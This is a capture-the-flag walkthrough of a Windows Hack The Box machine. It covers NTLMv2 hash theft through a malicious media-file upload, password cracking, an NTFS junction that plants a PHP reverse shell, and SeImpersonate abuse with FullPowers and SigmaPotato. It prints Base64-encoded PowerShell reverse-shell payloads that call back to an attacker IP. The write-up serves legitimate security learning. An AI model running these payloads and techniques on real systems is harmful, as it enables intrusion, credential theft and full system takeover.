This box is rated medium difficulty on HTB. It involves us exploiting a file upload feature on a website in order to capture a user's NTLMv2 hash and crack it offline. After using those credentials to grab a shell, we can create an NTFS junction between the file uploads directory and the webroot to get a reverse shell in the context of the web service. We can use public tools to recover this account's default privileges and gain access to the SeImpersonatePrivilege. This is then abused to escalate privileges with one of the Potato exploits, granting a shell as **NT AUTHORITY\SYSTEM**.

## Host Scanning
I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP yields no results.

```
$ sudo nmap -p22,80,3389 -sCV 10.129.234.67 -oN fullscan-tcp

Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-02 17:44 -0400
Nmap scan report for 10.129.234.67
Host is up (0.054s latency).

PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_9.5 (protocol 2.0)
80/tcp   open  http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
|_http-title: ProMotion Studio
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-05-02T21:44:58+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: MEDIA
|   NetBIOS_Domain_Name: MEDIA
|   NetBIOS_Computer_Name: MEDIA
|   DNS_Domain_Name: MEDIA
|   DNS_Computer_Name: MEDIA
|   Product_Version: 10.0.20348
|_  System_Time: 2026-05-02T21:44:53+00:00
| ssl-cert: Subject: commonName=MEDIA
| Not valid before: 2026-05-01T21:37:44
|_Not valid after:  2026-10-31T21:37:44
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.88 seconds
```

Looks like a Windows machine with just three ports open:
- SSH on port 22
- An Apache web server on port 80
- RDP on port 3389

## Website Enumeration

Not much we can do with those terminal services without credentials, so I fire up Ffuf to search for subdirectories and Vhosts on the web server before heading over to the site. It's a bit interesting for a Windows machine to run PHP, but the most common stack is running XAMPP with an Apache server, so that's what I have in mind when proceeding to the exploitation phase.

Checking out the landing page shows a static business site that hosts information about ProMotion Studio's organization.


### Upload Function
None of the tabs redirect us anywhere and most of the site lacks functionality, however the hiring section allows users to upload a video introduction meant to get to know the candidate.


Submitting any file will alert us with a message disclosing that someone in the HR department will review our file's contents and get back to us.


## NTLMv2 Theft
Initially, I thought we could hijack an admin session on the website to gain unauthorized access, but I failed to locate a login page anywhere placing that out of the question. Seeing as this is a Windows machine and only one particular file type is supported, we may be able to force an NTLMv2 authentication to an attacker-controlled SMB server and grab a hash to crack offline.

If you're unfamiliar with this attack vector - An attacker can upload a file such as a document, shortcut, or other content that references a remote UNC path (for example, `\\attacker-host\share\resource`) controlled by them. When a user or server process opens that file, Windows automatically attempts to access the remote SMB share and transparently performs an NTLMv2 challenge-response authentication, allowing the attacker to capture the resulting hash. This is possible because Windows is designed to seamlessly authenticate to trusted network resources using integrated authentication, and UNC path handling can trigger that behavior without explicit user awareness.

To carry out this attack, I'll use a tool called [ntlm-theft](https://github.com/Greenwolf/ntlm_theft) which supports a wide array of file types, including the required Windows Media Player format. I use the tool to generate all types and check which one succeeds in the file upload window.

```
└─$ python3 ntlm_theft.py -g all -s 10.10.14.243 -f NotAVirus
```



Upon being clicked, it will force the machine to fetch a resource at an external SMB server and automatically authenticate, giving us the user's NTLMv2 hash. 

### Initial Foothold
For this to work, we'll also need a way to receive the connection. In my case, I use Responder as it has always been reliable, but there are plenty of options since we only need a valid SMB server that will print the challenge-response portion.

```
└─$ sudo responder -I tun0
```

All that's left to do is upload the malicious file and wait for someone in the HR department to click on it. It seems like the .wax extension works well and we capture a hash for the enox user.



Sending that over to JohnTheRipper or Hashcat will recover the plaintext version fairly quickly.

```
└─$ john hash --wordlist=/opt/seclists/rockyou.txt
```



These credentials work over SSH and RDP, so pick your poison to grab a terminal.

```
└─$ ssh enox@10.129.234.67
```



At this point we can grab the user flag inside of their Desktop folder and focus on ways to escalate privileges towards administrator.

## Privilege Escalation
Listing the users directory shows that we're the only other account besides the Admin on the system. I'd usually go for dumping the site's database, but there was no login portal and nothing of the sort seems to be running.



### Shell as Web Service
While searching for more files in the current user's home directory, we discover the script being executed to run our uploaded files in the Documents folder.



Displaying the contents show that our files are being stored in the following path:

```
C:\Windows\Tasks\uploads\$randomVariable\$filename
```



Checking out what these directories hold reveal the previously uploaded files from the web server, including a PHP reverse shell my first go around. 



### NTFS Junction
These files aren't stored exposed to the web server, so we cant just get a shell in the context of the service, plus write access to `C:\xampp\htdocs` (where web server files are stored) is denied.



Luckily for us, our current user has write permissions over the directory where file uploads are stored. This means that we can create an NTFS junction that connects where the files are supposed to end up after being uploaded to the webroot directory. This ultimately exposes any file sent through the contact form.

An NTFS junction is a filesystem reparse point in Microsoft Windows that redirects access from one directory to another location on a local volume, making the operating system treat the target folder as if it physically exists at the junction path. Similar to a symbolic link in Linux, it acts as a pointer rather than storing the actual data, allowing files or applications to transparently follow the redirected path. The main difference is that junctions are typically directory-only and are implemented through NTFS reparse points, whereas Linux symlinks are more flexible and can reference files, directories, or even network paths.

To start, I remove the entire directory where my original PHP shell is located.

```
> rm .\09ccaad643b5378761bfeaca70689da3\NotAVirus.wax
> rm .\09ccaad643b5378761bfeaca70689da3\shell.php
> rm .\09ccaad643b5378761bfeaca70689da3
```



Now, I create a junction between the uploads directory and the htdocs folder inside of the XAMPP directory. 

```
> cmd /c mklink /J C:\Windows\Tasks\uploads\09ccaad643b5378761bfeaca70689da3 C:\xampp\htdocs
```

_Note that we must reuse the random string as the uploads directory name, since it's really just an MD5 hash of the user's firstname, lastname, and email._



We can verify that this works by listing the connected directories.



Now all we must do is reupload a PHP reverse shell to get terminal access in the context of the web service. I like using Ivan Sincek's pulled from [revshells.com](https://www.revshells.com/) for Windows machines as Pentestmonkey's is generally less reliable for some reason.

Making sure to standup a Netcat listener, we receive a connection as **NT AUTHORITY\LOCAL SERVICE**:

```
└─$ rlwrap -cAr nc -lvnp 443
```



### Recovering LOCAL SERVICE Privileges
**NT AUTHORITY\LOCAL SERVICE** is a built-in low-privileged Windows service account used to run system services that need minimal local permissions and typically access network resources using anonymous or computer-account credentials rather than a user identity. It helps reduce the impact of a compromised service by limiting what that service can access compared to higher-privileged accounts like LocalSystem or NetworkService.

Ironically, this account needs access to the _SeTCBPrivilege_, which allows it to act as part of the operating system.



In case you're new to exploiting Windows privileges, when we list Windows token privileges (for example with `whoami /priv`), the "Disabled" state usually means that privilege exists in the account's access token but is not currently enabled for that specific process or thread. It does not mean the account lacks that privilege - many privileges are present but only activated by Windows or an application when they're explicitly needed.

Recently, I came across a tool named [FullPowers](https://github.com/itm4n/FullPowers) while studying for OSCP, which is designed to recover the full privileges for the LOCAL SERVICE or SYSTEM SERVICE accounts. This researcher ([Itm4n](https://github.com/itm4n)) discovered that by creating a scheduled task, the new process retains almost all of the default privileges associated with the user account. 

This enables us to execute commands with the tool's `/c` option, which I use to grab another shell with slightly higher privileges on the machine. After transferring this file to the vulnerable machine, I snag a Base64-encoded PowerShell payload from [revshells.com](https://www.revshells.com/) to upgrade our rights.

```
> .\fullpows.exe -c 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMgA0ADMAIgAsADQANAA1ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==' -z
```



### Abusing SeImpersonate
Receiving that connection with another Netcat listener, we now we have access to the _SeImpersonatePrivilege_, which can be abused with one of the Potato exploits or similar tools.

```
└─$ rlwrap -cAr nc -lvnp 445
```



I end up using [SigmaPotato](https://github.com/tylerdotrar/SigmaPotato) to grab yet another shell with a Base64-encoded payload, only this time as **NT AUTHORITY\SYSTEM**.

```
> .\SigmaPotato 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMgA0ADMAIgAsADQANAA2ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=='
```



```
└─$ rlwrap -cAr nc -lvnp 446
```



Finally, we can grab the root flag under the Administrator's Desktop folder to complete this challenge. 



Overall, this box was very cool as it forced us to dive into Windows authentication and privileges. I hope this was helpful to anyone following along or stuck and happy hacking!
